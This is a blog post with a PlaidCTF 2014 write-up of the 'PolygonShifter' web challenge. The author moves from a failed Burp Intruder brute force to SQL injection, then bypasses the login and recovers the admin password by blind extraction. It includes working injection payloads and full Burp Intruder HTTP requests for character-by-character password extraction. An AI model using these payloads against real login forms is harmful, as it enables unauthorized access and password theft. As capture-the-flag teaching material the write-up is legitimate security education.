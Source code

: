 ```yaml
---
id: 1873
title: PlaidCTF writeup for Web-100 &#8211; PolygonShifter (blind sql injection)
date: '2014-04-17T12:55:06-05:00'
author: ron
layout: post
guid: https://blog.skullsecurity.org/?p=1873
permalink: "/2014/plaidctf-writeup-for-web-100-blind-sql-injection"
categories:
- hacking
- plaidctf-2014
- tools
comments_id: '109638366359431060'

---
```


Hey folks,

I know in my last blog I promised to do a couple exploit ones instead of doing boring Web stuff. But, this level was really easy and I still wanted to do a writeup, so you're just going to have to wait a little while longer for my 'kappa' writeup!
<!--more-->
This 100-point Web challenge, called PolygonShifter, basically added some anti-bot defenses to a Web site by obfuscating the username/password field names, as well as the action for the POST request. When you visited the page, you'd see something like this:

<pre>
<span class="htmlTag">&lt;</span><span class="htmlTagName">form</span><span class="htmlTag"> </span><span class="htmlArg">action</span><span class="htmlTag">=</span><span class="Constant">&quot;/S1tl90gme2GJ67epbZz9&quot;</span><span class="htmlTag"> </span><span class="htmlArg">method</span><span class="htmlTag">=</span><span class="Constant">&quot;POST&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">&quot;&quot;</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">&quot;text-align:left;&quot;</span><span class="htmlTag">&gt;</span>Username<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">label</span><span class="htmlEndTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;text&quot;</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">&quot;lK1TFqrcp3fvIRSg8V7T&quot;</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">&quot;L1UIVbxzFD8wUUo8SaJH&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">&quot;LkW7Ye9ItPb8CGeKZrMU&quot;</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">&quot;text-align:left;&quot;</span><span class="htmlTag">&gt;</span>Password<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">label</span><span class="htmlEndTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;password&quot;</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">&quot;LkW7Ye9ItPb8CGeKZrMU&quot;</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">&quot;LmmURBa3S5NRYBwzHXhC&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">class</span><span class="htmlTag">=</span><span class="Constant">&quot;primary large&quot;</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;submit&quot;</span><span class="htmlTag"> </span><span class="htmlArg">value</span><span class="htmlTag">=</span><span class="Constant">&quot;Login&quot;</span><span class="htmlTag">&gt;</span>
<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">form</span><span class="htmlEndTag">&gt;</span>
</pre>

I immediately installed the 'httparty' gem and started writing a solution in ruby, when I had an inspiration. I tried using the same action multiple times, and it worked! It would only work for a few minutes before I had to refresh and get a new one. But, that was enough!

I decided&mdash;incorrectly&mdash;that this was likely a brute-force level, so I fired up Burp Suite, chose 'Intruder' mode, and set it to something like:

<pre>
<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 56</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&amp;FcZtaYem0HE0t9bQQCTE=§password§</span>
</pre>

Then I used Burp Suite's built-in list of passwords to attack the account.

I let the attack run through the ~1000 or so passwords, then added a filter for 'Hello, ' (in order to find good attempts). There weren't any. Damnit, now I need a new plan!

...then, on a random inspiration, I tried an invert search for 'Wrong password'. And there was one entry: a password containing a single quote returned "An error occurred" instead of "Wrong password". *facepalm*, it's sql injection!

So, I tried logging in with:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or 1=1-- </li>
</ul>

And immediately, I'm logged in... as 'test'. Derp!

So I changed my credentials to:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or username='admin'-- </li>
</ul>

(Don't forget to put a space after the '--' if you're following along!)

And boom! I'm logged in as 'admin'! Finished, right? WRONG! The banner says: "Hello, admin!! My password is the flag!"

Now, it sounds like I need to recover admin's password. CHALLENGE. ACCEPTED.

I threw together a quick Burp Suite Intruder attack that looked like:

<pre>
<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 53</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&amp;FcZtaYem0HE0t9bQQCTE=%27+or+%28username%3D%27admin%27+and+binary+substring%28password%2C+§1§%2C+1%29+%3D+%27§a§%27%29--+</span>
</pre>

To clean it up, it's basically:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or (username='admin' and binary substring(password, $1, 1) = '$2')</li>
</ul>

(Where $1 and $2 are Burp Suite's marked fields)

Then I set Burp Suite to use a 'Cluster Bomb' style of attack, which means that each field has its own set of values that are tried. Then I set the two variables to:

<ul>
  <li>$1 :: numeric, 1 - 45 (I had to keep expanding this since the password was 30+ characters long!)</li>
  <li>$2 :: custom set, a-z A-Z 0-9 + symbols</li>
</ul>

Then I let it run, filtered for 'Hello', and got the following results:

<img src='/blogdata/polygonshifter-solution.png'>

Boom! Arrange those properly and you have your password. :)
